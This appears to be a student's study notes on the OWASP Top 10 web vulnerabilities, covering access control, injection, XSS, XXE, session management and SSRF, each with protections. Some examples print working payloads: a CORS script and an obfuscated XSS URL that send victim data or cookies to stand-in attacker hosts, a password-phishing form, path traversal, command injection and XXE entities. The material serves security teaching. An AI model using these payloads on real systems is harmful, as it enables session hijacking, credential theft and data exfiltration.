# Web Application Vulnerabilities

The Web suffers heavily from all the 3 causes of trouble: complexity, extensibility and connectivity. 

The web uses not one technology but a "blob" of technologies that have been developed over time, often without security in mind. This has led to a complex ecosystem where vulnerabilities can easily arise.

**OWASP Top 10 vulnerabilities**



# A1 - Broken Access Control

The main idea is that due to bugs in **authorization** enforcement, (authenticated or anonymous) users can access **functionalities and/or data** they were not supposed to.

The most common problems are:

- **Violation** of the **principle of least privilege**, allowing access to everyone.
- **Replaying or tampering** with unique identifiers to access other accounts or elevate privileges (often as a **cookie**, or **hidden field**, or a **JSON Web Token (JWT)** access control token).
- **Bypassing access control checks** by modifying the URL or HTML page.
- **Missing** access controls for calls with POST, PUT or DELETE methods.
- **Cross-Origin Resource Sharing (CORS)** misconfiguration allows unauthorized access to content from unauthorized/untrusted origins.

## Direct Object References

The site exposes a reference to an internal object, and there is **no proper** access control check. So the attacker can manipulate these references to access other objects without authorization.

**Example objects:**

- Database Record.
- Form parameter.
- File.
- Directory.

Direct reference to **key** in database:

```c
int cardID = Integer.parseInt(request.getParameter("cardID"));
String query = "SELECT * FROM table WHERE cardID=" + cardID
```

If the attacker changes the cardID to another value, they can access other users' data.

## More Direct Object References 

Direct reference to **file** in web page:

```html
<select name="language"><option value="fr">Francais</option>
```

This is process by PHP this way:

```php
require_once($_REQUEST['language']."lang.php");
```

The `require_once` function is similar to an `include` function, which includes and evaluates the specified file.

So an attacker can modify the page and do a path traversal attack to include arbitrary files:

```
../../../etc/passwd%00 (%00 injects \0 – null char injection)
```

In order to avoid this, never expose refs (use session info) and fo proper access control checks.

## Missing Function Level Access Control

Assume that pages/functions are "protected" simply by being inaccesible from the "normal" web tree (security through obscurity).

**Forced browsing:** guessing URLs and brute force to find unprotected pages.

**Example:** 

- "Hidden" URLs for administration that in fact are accessible to anyone that knows about them:

    ```
    http://example.com/app/getappInfo
    http://example.com/app/admin_getappInfo
    ```

- Temporary files, backups or logs that are left in the site.
- Unprotected configuration files.

**Mitigation:** No "hidden" pages as a form of protection. Enforce access control checks on the server side for all sensitive functions.

## Cross-Origin Resource Sharing (CORS)

CORS is a mechanism for integrating applications, as it defines a way for client **web applications** that are loaded **in one domain** to interact with **resources in a different domain**, this is useful because complex applications often reference **third-party** APIs and resources in their client-side code. It extends and adds flexibility to the **same-origin policy (SOP)**, which only allowed requests to be sent to the **same** origin as the client’s URL


How it works:

1. The **client code** from the site `https://news.example.com` wants to access resources from an API at `partner-api.com`.
2. Developers at `partner-api.com` first configure CORS headers on their server by adding `new.example.com` to the allowed origins list: **Access-Control-Allow-Origin: https://news.example.com**.
3. Now, for every request from the **client code**, `partner-api.com` will respond with **Access-Control-Allow-Credentials: "true"**.
4. The **browser then knows** the communication is authorized and permits cross-origin access to the **client code**.

In a regular CORS interaction, the browser send the request and access control headers at the same time (normally, GET data requests, as they are considered low-risk). However, some **HTTP requests are considered complex** and require confirmation before the actual request is sent. The preapproval process is called a **preflight request**.



```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

A server API at **vulnerable-website.com** receives the following request to access some sensitive data. **The Origin header identifies the domain initiating the request and is always sent to the server.**

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. In this case, the application responds that access is allowed from the domain **malicious-website.com** and that the cross-origin request **can include cookies** and therefore they will be **processed in-session**.

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Due to the misconfiguration of the server API, the malicious website can contact the vulnerable website and request the sensitive-victim-data using its credentials.

The malicious script run at **malicious-website** to interact and collect data:

```javascript
var req = new XMLHttpRequest() ;
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send() ;
function reqListener () {
    location='//malicious-website.com/log?key=' + this.responseText;
}
```

**Mitigation:** Proper CORS configuration, only allow access to public APIs, avoid using wildcard `*` in Access-Control-Allow-Origin header, and avoid allowing credentials from untrusted origins.

## Protection

1. Except for public resources, **deny by default**.
2. **Implement** access control mechanisms **once** and **re-use them** throughout the application.
3. Access controls should **enforce record ownership** rather than accepting that the user can create, read, update, or delete **any** record.
4. **Disable** web server **directory listing** and ensure file metadata (e.g., .git) and **backup files** are **not present** within web roots.
5. **Log** access control failures, **alert** admins when appropriate.
6. Stateful session identifiers should be **invalidated** on the server after **logout**.
7. **Rate limit** API and controller access to minimize the harm from automated attack tooling.

# A2 - Cryptographic Failures

The main idea is that failures related to **cryptography** (or lack of it), which often lead to sentive data exposure.

The most common problems are:

- Sensitive **traffic not encrypted**, either on the internet with TLS / HTTPS or when transmitted internally in the organization.
- Sensitive data is **stored in the clear**, either in databases or backups.
- **Hard coding keys** and **storing** keys in **unprotected** stores.
- **Weak key generation** or **no key rotation**.
- **Improper validation** of received server certificate & trust chain.
- **Weak** (old) algorithms (MD5, RC3, …) or **home-grown** algorithms.
- Initialization vectors ignored, reused, or **not sufficiently random**.

**Examples:**

**Attack 1:** credit card numebers are protected using automatic database encryption. This data is automatically decrypted when retrieved, allowing a SQL injection flaw to get credit card numbers in clear text.

**Attack 2:** TLS is not used for all pages (or is ill-configured), so the attacker can monitors an insecure wireless network, downgrades connections from HTTPS to HTTP, intercepts requests, and steals the session cookie to hjack user's (authenticated) session.

**Attack 3:** the password database uses unsalted or simple hashes to store passwords. So an attacker can retrieve the password database with all the unsalted hashes and use a **rainbow table** of pre-calculated hashes to recover all user passwords.

## Protection

1. **Discard unnecessary sensitive data** as soon as possible.
2. **Encrypt all sensitive data** while **stored** or **in transit** on the net (enforce this using directives like ***HTTP Strict Transport Security (HSTS)***).
3. Use **stong crypto algorithms**, like ciphers, parameters, protocols, and keys are used, and proper key
management is in place.
4. Ensure passwords are stored with a strong adaptive algorithm appropriate for **password protection**, such as Argon2, scrypt, bcrypt, and PBKDF2.
5. **Disable caching** for responses that contain sensitive data.
6. Verify **independently** the effectiveness of your settings.

# A3 - Injection

Main idea: the web server accepts input that is poorly understood by an **interpreter**, allowing an **unintended command** to be executed or **the access to some data** for which there was no authorization.

The most common kinds are:

- **SQL Injection** (most prevalent, but we leave it for a subsequent class).
- **Others:** NoSQL, OS commands, ORM, LDAP, EL, OGNL, XML, XPath, NoSQL, XSLT, HTML, SMTP headers, etc.

This vulnerabilities are often found by using automated tools, such as static code analyzers and fuzzers.

## XML Injection

Explores a problem with a validation of the delimiters of the input data.



## OS Command Injection

Perl allows piping data to a process from an open statement by adding a '|' (Pipe) character onto the end of a filename.

```perl
open(FILE, "/bin/ls|") executes /bin/ls !!!
```

If the filename ends with a pipe character, the filename is interpreted as a command that pipes the output to us.


**Normal request:**

```
http://vuln.com/cgi-bin/userData.pl?doc=user1.txt
```

**Attacker request:**
```
http://vuln.com/cgi-bin/userData.pl?doc=/bin/ls|
```

## Cross Site Scripting (XSS)

The attacker is able to inject a **script** in the *victim's browser* (typically **JavaScript**, but others are possible)

**Types of XSS:**

1. **Reflected XSS (or non-persistent):** a page reflects user-supplied data directed to a user's browser.
    **PHP:** `echo $_REQUEST[‘userinput’];`
    **ASP:** `<%= Request.QueryString(“name”) %>`
2. **Stored XSS (or persistent):** hostile data (scripts) is stored in a file, database or other and is later sent to a user's browser (danderous in systems like blogs, forums, social networks, etc.).
3. **DOM-based XSS (Document Object Model):** manipulates DOM attributes instead of HTML, adding or changing JavaScript code processed by the browser.

### 1 - Reflected XSS

The user **does not trust** email scripts but **trusts** a (vulnerable) website. The ideia is to make a user trust untrustworthy data from  that website.



#### Getting cookies

Get the user cookie to access the site with the same privileges as the user (assuming that session id is kept in the cookie).



#### Getting user/pass

Vulnerable ASP page called *test.asp* (reflects "name" parameter in URL):

```asp
<html><body>
Hi there <%= Request.QueryString("name") %>!<p>
</body></html>
```

Request for user/password and send it to the web server at 1.2.3.4

```
http://vulnerable.site/test.asp?name=jim!<form%20action="1.2.3.4"><p>Enter%20Password:<br><input%20name="password">
<br><input%20type="submit"></form>
```

#### Obfuscating the script

A request to a portal that displays username (after logging)

```
http://portal.example/index.php?sessionid=12312312&username=Joe
```

Encode the script to make it look less suspicious (URL encoding):

```
http://portal.example/index.php?sessionid=12312312&
username=%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%6C%6F%63%61%74%69%6F%6E%3D%27%68%74%74%70%3A%2F%2F%61%74%74%61%63%6B%65%72%68%6F%73%74%2E%65%78%61%6D%70%6C%65%2F%63%67%69%2D%62%69%6E%2F%63%6F%6F%6B%69%65%73%74%65%61%6C%2E%63%67%69%3F%27%2B%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%3C%2F%73%63%72%69%70%74%3E
```

This will run like this:

```
http://portal.example/index.php?sessionid=12312312&username=<script>document.location='http://attacker.host.example/cgi-bin/cookiesteal.cgi?'+document.cookie</script>
```

### 2 - Stored XSS



Note: Scripts can be similar to the previous ones but typically stored in forums, blogs, etc.

### 3 - DOM-based XSS

In the previous two XSS vulnerabilities are in teh website (server) responsible for dynamically generating a response page, wich will contain a malicious input provided by the attacker.

A DOM XSS vulnerability is different in the sense that the **response page contains a (vulnerable) script** that, when executed, **gets the malicious input** previously sent by the attakcer and **includes it in the page**.

How it works:

1. An HTML or XML page is represented by a **DOM (Document Object Model)**
2. HTML and scripts can contain references to attributes of thath object, which are interpreted by the browser (`document.URL, document.location, document.referer,…`)
3. **Vulnerability:** a site with an HTML page with a JavaScript script that does client-side logic with an attribute (e.g., `document.URL`).

**Example:**

Page at ` http://www.vulnerable.site/welcome.html`

```html
<HTML> <TITLE>Welcome!</TITLE>
Hi <SCRIPT>var pos=document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos, document.URL.length));
</SCRIPT> <BR>Welcome to our system …….. </HTML>
```

The client's browser interprets the script and puts the part of the URL corresponding to "name" in the page.

**Normal request:**

```
http://www.vulnerable.site/welcome.html?name=Joe
```

**Malicious request:** (e.g., placed in some malicious email)

```
http://www.vulnerable.site/welcome.html?name=<script>alert(document.cookie)</script>
```


#### XSS vs Script Tag

Scripts can be used in other places besides the script tags:

```html
<body onload=alert('test1')>

<b onmouseover='alert(document.cookie)'>click me!</b>

">
```

#### XSS in Error Pages

A common variation of the same problem is when the attacker is able to inject scripts in error pages generated by the web server or application.

Web page to display 404 error:

```html
<html><body>
<? php print "Not found: " . urldecode($_SERVER["REQUEST_URI"]); ?>
</body></html>
```

**Normal input/output:**

```
http://testsite.test/file_which_not_exist
Not found: /file_which_not_exist
``` 

**Malicious input:**
```
http://testsite.test/<script>alert("TEST");</script>
```

#### CRLF Injection

Called **CRLF** (Carriage Return Line Feed) **injection** or **HTTP response splitting**. Shares a few similarities with refleced XSS but with **injection in the header** of the HTTP response.

1. Can be performed like a reflected XSS. An attacker sends the **victim** a URL of a **vulnerable website**.
2. The typical victim is a page that **does a rederection** (301 (Moved Permanently), 302 (Found), 303 (See Other), 307 (Temporary Redirect)).
3. The attacker inserts a **carriage return and a line feed** creating a **new field in the header**, or worse, **another response(s)**.
4. Browser **thinks the 2nd response** comes from the rederection.

Example JSP page that when it is called, it does a redirection that dependes on the user input:

```jsp
<%
response.sendRedirect("/by_lang.jsp?lang="+
request.getParameter("lang"));
%>
```






##### Protection for Injection.  

**Prevention** is related to ensuring that **user-supplied data** can not be incorrectly used in commands or queries.

- **Avoid** the interpreter or emply secure APIs that **parameretize** user data added to commands.
- A "**white list**" can be deine which acceptable input can be used.
- **Meta characters** should be **escaped** using the specific language of the interpreter.

**Detect**.

- Look for the places in the code where the interpretes **use** the **potentially malicious data** supplied by the user and **validate, filter, or sanitize** the user-controlled data to be utilized in a command or query.

# A4 - Insecure Design

Main idea: broad category related to **flaws in the design** and **architecture** of the application, which could be addressed with **secure by design** principles. 
Notice **insecure design != insecure implementation**, resulting in distinct root causes and remediation actions.

Areas that affect these flaws:

- Identify **requirements** concerning the protection of data assets and business legic, taking into consideration the purpose and execution environment of the application.
- Apply a **secure design**, ensuring that threads are properly evaluated, and the code is robustly designed, implemented, and tested to prevent known attacks.

## Examples

**Attack 1:** **credential recovery** uses "**questions and answers**"
Prohibited by NIST 800-63b, as they **cannot be trusted** as evidence of identity, as more than one person can know the answers -> *should be substituted by a more secure design ...*

**Attack 2:** cinema chain allows group booking discounts, and only requires a desposit for groups with fifteen or more attendees. Attackers could book many hundreds of seats and all cinemas at once in a few requests, cousing a **massive loss of income**.

## Protection

1. Use a **secure development lifecycle** with **security experts** to help evaluate and design security and privacy-related controls.
2. Use a library of **secure** design patterns or **well-tested** components.
3. **Threat modeling** for critical authentication, acess control, business logic, and key flows.
4. Write unit and integration tests to **validate** that all critical flows.
5. Segregate users rebustly.
6. **Limit** resource consumption by user or service.

# A5 - Security Misconfiguration

This vulnerability is related to a **configuration flaw** that allows the attacker to gain **knowledge** or **unauthorized access** to the system (default accounts, unused pages, **unpatched vulnerabilities**, unprotected files and directories, etc.)

This vulnerability can appear in OS, web server, application server, framework, and custom code.

**Examples:**

- **Remote admin console** is installed and not removed from production systems.
- **Default account passwords** are not changed/removed -> attacker discovers, logs in with default passwords and takes over the system.
- **Directory listing** is enabled -> attacker finds all files on the server by simply listing the directories.
- The application server's configuration allows **detailed error messages**, e.g., stack traces, to be returned -> attacker learns the version of the component.
- Cloud provider with **sharing permissions** open to the terminal.

## XML External Entities (XXE)

XML processors may incorrectly evaluate **entity references** within XML documents, **allowing the disclosure of data** or **executing remote requests**...

Occurs when XML input contains a **reference to an external entity** that is processed by a badly configured XML parser.

- XML 1.0 standard defines an **entity**, which is like a variable or a placeholder that gets replaced with text or data when the XML is parsed; there are various types of entities (e.g., internal/external).
- An **external general/parameter parsed entity**, often shortened to **external entity**, is a mechanism that allows the inclusion or reference of content stored **outside the main XML document**.
- The external entity can access **local** or **remote** content via a **declared** **SYSTEM identifier** (a URI).

**XML Entities**

**Internal entity** – The replacement text is defined inside the XML document.
```xml
<!ENTITY author "John Doe">
<book>
    <name>XML Guide</name>
    <creator>&author;</creator>
</book>
```

When parsed, `&author;` is replaced by John Doe.

**External entity** - The replacement text is defined in an external file or resource (a URL or local file)
```xml
<!ENTITY externalText SYSTEM "extra-info.xml">
<data>
    &externalText;
</data>
```

The parser fetches and inserts the content of `extra-info.xml` into the document when it’s processed.

**Types of External Entities**
- **General external entities:** referenced by name (like `&Text;`) inside the XML content.
- **Parameter external entities:** used inside the DTD (Document Type Definition), and referenced with a `%` (like `%Text;` ).

### XXE Attacks

**Attack 1:** the attacker provides alicious XML file to site, which attempts to extract data from the server.



**Attack 2:** the attacker probes the web server's network by modifying the IP address below

… similar to above …

```xml
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

**Attack 3:** An attacker attempts a denial-of-service (DoS) attack by including a potentially endless file.


… similar to above …

```xml
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

**Attack 4:** If the PHP "**expect**" module is loaded, it is possible to get remote code execution.



### Protection

1. Applying **hardening guidelines** to the system.
2. **Scanners** are useful to automate the process of detecting missing patches, misconfigurations, the use of default accounts, and unnecessary services.
3. Deploy a **minimal** platform **without any unnecessary** features, components, documentation, and samples.
4. A **segmented** application architecture provides effective and secure separation between components or tenants.

# A6 - Vulnerable and Outdated Components

The application is built using components that were **developed externally**, so the adversary can find a vulnerability in one **older version** or **unpatched version** of a component, and she creates the corresponding exploit to attack the application. Dependending on how the component is used, the application might also become vulnerable.

**Protection:**

- **Remove** unnecessary features and components.
- **Monitor** the security of all components and keep them **up to date**.
- Add **security wrappers** to the components to prevent use of insecure functinalities.

# A7 - Identification and Authentication Failures


The main idea is that weaknesses in the implementation of **authentication** and **session management** allow **compromise of passawords**, **keys** or **session tokens**, **or** exploit other implementation flaws to **assume the identities of other users**.
Attackers have access to hundreds of millions of valid username and password combinations, defualt administrative accounts, which can be leveraged to automate attacks.

**Example weaknesses of broken authentication:**

- **Allow** brute force or other automated attacks.
- Permit or have **default** weak or well-known passwords (“admin/admin").
- Uses **insecure credential recovery** / forgot password recovery.
- **Saves** passwords in a format that enables rapid recovery with brute force attack tools (e.g., GPU-enhanced crackers).
- Missing or ineffective **multi-factor** authentication.
- Manages the **session** IDs insecurely.

## Credential Stuffing

**Credential stuffing:** breached username/password pairs are automatically injected **into other sites** to get access to user accounts (sepatial case of brute-force attacks).
Attackers rely on the fact that many users reuse the same password across multiple sites - so a credential pair that worked on `Site A` may also work on `Site B`.



**Credential spraying:** it is a variant, where a **small se of common passwords** (often the most popular ones) are tried across **a large number of accounts**.

## Managing User Sessions

HTTP is stateless but state is needed for sessions. 
The most common approach:

- User **authenticates**.
- A **session** starts.
- The server stores user info and **manages the session state** in a table.

Some possible solutions to track state, not that secure:

- **IP addresses**.
- **Referer field** of the HTTP header: the field says from which page the user came to reach the current page. This could be used to check if the user arrived from login page but it's hard to program and easily spoofed.

### State tracking mechanisms - ID

The server **sends to the browser an ID to be included in every request** (after the user logs in) and keeps infor associated with that ID.

The ID must be:

- **Univocal** – unambiguous, designating a single user to avoid mixing sessions.
- **Unpredictable** – to avoid attackers from guessing it.
- **With a (short) expiration time** – to limit the damage if the ID is guessed.

**Session hijacking attack:** An attacker discovers an open session ID and sends commands to that session, impersonating the user.

**Bad:** IP and username/password as IDs violate this principle.
**Best:** Long random numbers (e.g., 128 bits) generated with a cryptographically secure random number generator.

**Example ways to include ID in request:**

1. **Hidden field in a form**.
    ```html
    <input type="hidden" name="user" value="ddee4454xerAFW45ex">
    ```
2. **Cookies**
   - Created by field `Set-Cookie` in HTTP response header.
   - They are small places of `<name:value>` pairs stored in the browser that have:
     - Expiration date/time.
     - Path and domain restrictions - browser sends cookies to URLs from the domain + within the path.
     - **Secure** attribute - **cookie sent only over HTTPS**.
     - **HttpOnly** attribute - cookie **cannot** be accessed through **client-side scripts**.

### Session Management in Practice

Sessions are implemented by most current server-side scripting languages to track state (e.g., PHP, JavaScript, ASP.NET, etc.).

They are well tested so using the API defined in the language is recommended.

- In PHP: `session_start()`, `session_destroy()`.
- **Problems still appear if the interfaces are NOT properly used**, and therefore being aware of best practices is important (e.g., several cases with PHP).

**Example vulnerabilities:**

**Attack 1:** the user posts the URL to her frieds, unknwingly providing access to her session.

```
http://example.com/sale/saleitems;jsessionid=2P0OC2JSKHCJUN2JV?dest=Hawaii
```

**Attack 2:** The user accesses his account bt **forgets to logout**. The **the timeout for the session is very long** and later on, another user of the same computer reuses the ID.

#### Session Fixation

This attack occurs when the attacker is able to hijack a valid user session. This is a special case of a **session hijacking attack**, where an attacker **forces a victim to use a session identifier** (session ID) **known to the attacker**, then waits for the victim to authenticate using that session ID.


**Examople:**

Vulnerable PHP webapp (http://vuln.com/index.php)

```php
<?php
session_start();
if (!isset($_SESSION['visits'])) {
    $_SESSION['visits'] = 1;
} else {
    $_SESSION['visits']++;
}
echo $_SESSION['visits'];
?>
```

The attacker send to the victim the URL `http://vuln.com/index.php/?PHPSESSID=1111`. Defines the session id as `1111`, forcing the session to be `1111`. Then the attacker knows the session id so can interfere with the session – session hijacking.

**Solution:** if the session is not initiated, regenerate id 

```php
<?php
session_start();
if (!isset($_SESSION['initiated'])) {
    session_regenerate_id();
    $_SESSION['initiated'] = true; 
}
?>
```

Also, after login: `session_regenerate_id();`.

## Protection

1. **Multi-factor authentication** to prevent automated guessing attacks.
2. Do **not setup default credentials**, namely for admin users.
3. Follow **best practices for managing passwords** (NIST 800-63).
4. **HTTPS** (**or TLS**) to protect the interation with the server, preventing sniffing of the credentials.
5. If possible, avoid your own method to keep session information.
6. If you really need to develop an auth + session management library:
    - Check user selected passwords for minimum levels of security.
    - Increase delay of failed auth attempts and alert admins of attacks.
    - Password change technique should be robust.
    - Id should be unique, long, random, short expiration.
    - Id should be invalidated after logout.
    - Id should change every time there is re-authentication.
    - Id should not be placed in the URL.

# A8 - Software and Data Integrity Failures

The **code** and **infrastructure** that does **not protect against integrity violations**, such as when:

- An application relies upon plugins, libraries, or modules from **untrusted** sources, repositories, and content delivery networks (CDNs).
- **Updates** are downloaded **without** succicient **integrity** verification and applied to the previously trusted software.
- Objects or data are encoded or serialized into a structure that an attacker can see and modify to cause **malicious deserialization**.

**Examples:**

- Often home routers, set-top boxes, device firmware, and others do **not verify updates** via **signed firmware**.
- **SolarWinds Orion attack:** the company that develops the software **had secure build and update integrity processes**; Still, these were subverted, and for several months, the firm distributed **a highly targeted malicious update** to more than 18,000 organizations, of which around 100 or so were affected.

## Insecure Deserialization

While preforming the **deserialization of (attacker modified) objects**, the application allows for various malicious actions, including **remote code execution**.
Serialization can occur for example:

- Remote process comunication.
- Caching/Persistence.
- Database.
- Cookies.

**Example attack:**



## Protection

1. Use **digital signatures** or similar mechanisms to verify the software or data integrity.
2. Ensure updates are coming from **trusted repositories**.
3. Verify and **test arriving components** for security, namely using different tools.
4. Ensure that there is a **review process** for code and configuration changes in the application being developed.
5. Implement **integrity checks or encryption of the serialized objects** to prevent hostile object creation or modification.

# A9 - Security Logging and Monitoring 

There is **insufficient capability** in the system **monitor** activities and deficient integration with incident response, allowing attacks to **remain undiscovered** and **extended to other parts of the site**.

Fundamental for **accountability**, **visibility**, **incident alerting**, **forensics**. Lack of monitoring, logging or alerting can lead to a far worse outcome than the initial breach.

**Protection:**

1. Log all relevant **error conditions** (login / access control failures).
2. High value operations need to have an audit trail that **cannot be erased**.
3. High-value transactions have an **audit trail with integrity controls** to prevent tampering or deletion, such as append-only database tables.
4. Adopt an **incident response and recovery plan**, such as NIST 800-61 rev2 or later.

# A10 - Server-Side Request Forgery (SSRF)

This occurs when an attacker tricks a **server** into making HTTP requests to **unintended locations**, often **internal or protected resources**, which the attacker cannot access directly.

**Examples:**

- Access local files or internal services to gain sensitive information such as `file:///etc/passwd and http://localhost:28017/reads`.
- Metadata storage of the cloud provider to gain sensitive data (`http://169.254.169.254/latest/meta-data/` (AWS EC2 metadata)).

**Protection:**

1. Segment remote resource access functionality in **separate networks** to reduce the impact of SSRF.
2. Enforce “**deny by default**” firewall policies or network access control rules to block all but essential **intranet** traffic.
3. **Sanitize and validate** all client-supplied input data (e.g., block 127.0.0.1).
4. **Disable** HTTP redirections.
